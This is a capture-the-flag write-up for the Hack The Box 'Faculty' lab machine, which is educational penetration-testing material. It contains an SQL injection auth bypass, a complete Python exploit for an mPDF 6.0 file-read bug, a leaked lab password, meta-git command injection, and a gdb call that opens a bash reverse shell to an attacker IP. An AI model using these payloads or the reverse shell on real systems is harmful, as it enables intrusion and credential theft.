

<p align="right"><a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.169 faculty.htb

**nmap scan: TCP/IP**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* gobuster only found `/admin`: `http://faculty.htb/admin/`
* sql injection in admin login to bypass auth: `admin' -- -`

  

sqlmap from another UNION based sql injection in `/admin/ajax.php?action=get_schecdule` in "faculty_id" param, but nothing interesting found from database: `sqlmap -r req --batch --dbms=mysql --level 3 -t 20`

* request found while logging-in as faculty
  
  

```bash
POST /admin/ajax.php?action=get_schecdule HTTP/1.1
Host: faculty.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 36
Origin: http://faculty.htb
DNT: 1
Connection: close
Referer: http://faculty.htb/index.php
Sec-GPC: 1

faculty_id=*
```

Only 1 password entry found for admin, but the hash is not crackable with rockyou.txt
```bash
Database: scheduling_db
Table: users
[1 entry]
+----+---------------+------+----------------------------------+----------+
| id | name          | type | password                         | username |
+----+---------------+------+----------------------------------+----------+
| 1  | Administrator | 1    | 1fecbe762af147c1176a0fc2c722a345 | admin    |
+----+---------------+------+----------------------------------+----------+
```

# Foothold

## LFI

There is a option to download "List" in pdf file.



That pdf file is generated using html send from client side.


in base64 encoded format


If we check metadata of that pdf file, we can found that this pdf is generated by **[mPDF version 6.0](https://github.com/mpdf/mpdf/tree/v6.0.0)** PHP library.
```bash
❯ exiftool -Producer OK6pW7BENJD2nVdhKwQRZYUs84.pdf
Producer                        : mPDF 6.0
```

While searching through the issues, found an interesting bug, specifically for mPDF 6.0: https://github.com/mpdf/mpdf/issues/356

And issues says that, "By abusing the tag (`<annotation>`), it was possible to extract sensitive files/source code from the application backend.

The following HTML example includes the file "/etc/passwd" into the generated PDF document.
```html
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

So, it is possible to read system file using pdf attachment by sending this payload in base64 encode.


Here is a python Script that takes filename with it's absolute path as a input and save that file from attachment in the CWD if file found on the server.

```py
#!/usr/bin/env python3

"""
Author: poorduck
Description: This script uses the mPDF 6.0 <annotation> issue https://github.com/mpdf/mpdf/issues/356
             to extract server files/source code by including them into pdf file and after downloads the generated file,
             it extracts all attachments from that pdf and saves them to disk.

Usage: python script_name.py file_path
            where file_path is the path to the file to be attached to the PDF.

Example: python3 script.py /etc/passwd
"""

import requests as r
from sys import argv
import base64
import PyPDF2
import os

s = r.session()
# s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
# s.verify = False
host = "http://faculty.htb"
file_path = argv[1]
payload = f'<annotation file="{file_path}" content="{file_path}" icon="Graph" title="Attached File: {file_path}" pos-x="195" />'
encode_payload = base64.b64encode(payload.encode('UTF-8')).decode('UTF-8')

# Generate pdf with our payload and get filename
filename = s.post(f"{host}/admin/download.php", data={"pdf": encode_payload})
if 'mPDF Error' in filename.text:
    exit(filename.text)
print("[+] Uploaded filename:", filename.text.strip())
print(f"[+] URL: {host}/mpdf/tmp/{filename.text.strip()}")

# Download generated file
get_file = s.get(f"{host}/mpdf/tmp/{filename.text.strip()}")
with open(filename.text.strip(), 'wb') as f:
    f.write(get_file.content)


# extract all annotations from pdf file.
def getAttachments(reader):
    """
    https://stackoverflow.com/questions/68083358/get-pdf-attachments-using-python
    """
    attachments = {}
    #go through all pages and all annotations to those pages,
    #to find any attached files
    for pagenum in range(0, reader.getNumPages()):
        page_object = reader.getPage(pagenum)
        if "/Annots" in page_object:
            for annot in page_object['/Annots']:
                annotobj = annot.getObject()
                if annotobj['/Subtype'] == '/FileAttachment':
                    fileobj = annotobj["/FS"]
                    attachments[fileobj["/F"]] = fileobj["/EF"]["/F"].get_data()
    return attachments


handler = open(filename.text.strip(), 'rb')
reader = PyPDF2.PdfFileReader(handler)
dictionary = getAttachments(reader)
for fName, fData in dictionary.items():
    with open(fName, 'wb') as outfile:
        outfile.write(fData)


# Clean CWD
os.remove(filename.text.strip())

```

## Password Re-use

Found system users from `/etc/passwd` file.
```
gbyolo
developer
```

Same endpoint, where i found the sql injection using `sqlmap`, return traceback error which reveals the webapp filepath.


From "db_connect.php" found database creds


And that database password reused for system user "gbyolo"

Creds -> `gbyolo:Co.met06aci.dly53ro.per`


# Privesc

## Command Injection

Same password used in `sudo` by "gbyolo" user, And user can run `/usr/local/bin/meta-git` as "developer"
```bash
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```

There is a bug in "meta-git" npm package: https://hackerone.com/reports/728040

this bug allow command inject, and with that able to read developer ssh private key.


## gdb attach root

user "developer" is in multiple group, and one group "debug" owned `/usr/bin/gdb`


If we run `gdb`, it will run as user "developer" and not as root.

but we can achieve root by attaching an root process in gdb.

Found a python process running as root
```bash
developer@faculty:~$ ps -aux | grep root | grep python
root         731  0.0  0.9  26896 18132 ?        Ss   Jun30   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
```

Attach that process in `gdb`
```bash
gdb -p {PID}
```

call python builtin function `system()`

* https://stackoverflow.com/questions/1354731/how-to-evaluate-functions-in-gdb

```bash
call system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.30/4141 0>&1'")
```

